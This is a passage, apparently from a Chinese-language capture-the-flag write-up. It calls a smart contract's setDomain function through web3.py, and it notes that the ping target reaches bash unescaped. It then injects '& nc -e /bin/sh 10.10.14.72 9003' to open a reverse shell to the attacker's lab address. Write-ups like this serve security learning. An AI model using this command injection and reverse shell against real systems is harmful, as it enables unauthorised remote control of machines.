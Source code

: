 ```
web3.eth.defaultAccount = web3.eth.accounts[0]
```

然后，我使用 set 函数设置 ping 将被发送到的域(来自智能合约):

```
print(contract.functions.setDomain('10.10.14.72').transact())
```

![](img/0321b7ae02dec440215e8ad14191d879.png)

因为我能够执行 ping，并且看起来它被传递给 bash，所以我可以添加一个' & '并在它后面放置一个恶意命令，如下所示，这是一个反向 shell:

```
nc -e /bin/sh 10.10.14.72 9003
```

在 Python 解释器中运行该行:

![](img/c88e7807e56501631e72d746be13a121.png)
